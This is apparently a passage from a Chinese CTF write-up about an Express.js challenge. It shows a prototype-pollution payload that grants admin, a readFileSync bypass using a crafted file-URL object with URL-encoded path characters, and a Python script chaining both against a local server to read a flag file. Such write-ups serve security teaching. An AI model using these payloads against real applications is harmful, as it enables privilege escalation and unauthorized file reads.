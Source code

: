 ```javascript

  }
  else{
    res.send('you are not admin')
  }
})


app.get('/for_check',(req,res)=>{
  res.send(fs.readFileSync('/app/app.js').toString())
})



app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```
原型链污染
```javascript
{
	“username":"mof",
  "__proto__":{"admin":True}
}
```
readFileSync绕过
[https://cloud.tencent.com/developer/article/2123023](https://cloud.tencent.com/developer/article/2123023)
```javascript
{
  "file":{
    "href":"mof",
    "origin":"mof",
    "protocol":"file:",
    "hostname":"",
    "pathname":"/fl%61g.txt" 
  }
}
```
payload:
```javascript
import requests
  
url1="http://127.0.0.1/login"
url2="http://127.0.0.1/dosometing"

data={
    "username":"mof",
    "__proto__":{"admin":True}
}
s=requests.session()
r=s.post(url=url1,json=data)
print(r.text)

r=s.post(url=url2,json={
    "file":{
        "href":"mof",
        "origin":"mof",
        "protocol":"file:",
        "hostname":"",
        "pathname":"/fl%61g.txt" # url编码绕过匹配
    }
})
print(r.text)
```